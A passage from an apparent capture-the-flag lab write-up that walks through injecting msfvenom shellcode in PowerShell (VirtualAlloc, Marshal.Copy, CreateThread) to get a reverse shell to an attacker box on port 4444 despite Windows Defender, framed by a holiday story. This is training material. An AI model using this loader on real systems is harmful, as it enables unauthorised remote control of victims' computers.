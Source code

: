Then paste the line below, replacing the placeholder with the shellcode generated by msfvenom, and press `Enter`.

```shel
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```

Continue copying and pasting the lines from the code below. Remember, copy one line at a time, paste it, and press `Enter`.

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

If you've done it properly, the PowerShell terminal in the VM will look like the screenshot below:

![](../images/Pasted%20image%2020241208144640.png)

Once you execute the final line in the PowerShell terminal and press `Enter`, you will get a reverse shell in the AttackBox, giving you complete access to the computer even if the Windows Defender is enabled. Now you can issue any command, like issuing `dir`, which will list all the directories.

![successful shell screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1727972837925.png)

## Regaining Access
----

_Now Glitch must act, no time to delay,_

_To fix the shellcode and keep foes at bay._

_He tweaks and he codes to set the wrongs right,_

_Protecting his secrets with all of his might._

Let's dive into the story and troubleshoot the issue in this part of the task. Glitch has realized he's no longer receiving incoming connections from his home base. Mayor Malware's minion team seems to have tampered with the shellcode and updated both the IP and port, preventing Glitch from connecting. The correct IP address for Glitch is `ATTACKBOX_IP`, and the successful connection port should be `4444`.

Can you help Glitch identify and update the shellcode with the correct IP and port to restore the connection and reclaim control?

# Question
---


![](../images/Pasted%20image%2020241208144730.png)


First, let's create the shellcode in order to start the steps to get a reverse shell:
